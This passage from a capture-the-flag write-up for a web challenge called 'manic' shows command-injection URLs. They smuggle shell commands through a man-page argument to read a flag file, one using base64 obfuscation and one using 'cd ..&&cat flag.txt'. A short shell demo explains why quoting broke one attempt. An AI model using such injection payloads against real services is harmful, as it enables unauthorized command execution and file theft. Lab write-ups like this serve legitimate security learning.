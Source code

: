 ```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```

![Base64 Payload Stdout 2](images/manic/base64_payload_stdout_output_2.png)

The difference is that the value for the `--html` argument is wrapped with double quotes. When wrapped with double quotes, the payload does not work. This is because when wrapping the initial command in a shell with double quotes, it will include the spaces as a part of the binary that it's searching for to execute.

```sh
$ "ls -l"
sh: 15: ls -l: not found
$ ls -l
total 12
-rw-r--r-- 1 solopie solopie   89 Jan 14 22:51 README.m
```

##### Bruh

I found this one funny for some reason. The one thing I love about CTFs is that sometimes you'll find a solution that seems very obvious but completely crosses your mind. No need for fancy expansions!

![Bruh Payload 2](images/manic/bruh_payload_2.png)

![Bruh Payload](images/manic/bruh_payload.png)

```
http://challenges.oceaniacc.com:5001/-/-Hcd%20..%26%26cat%20flag.txt/-/man
```
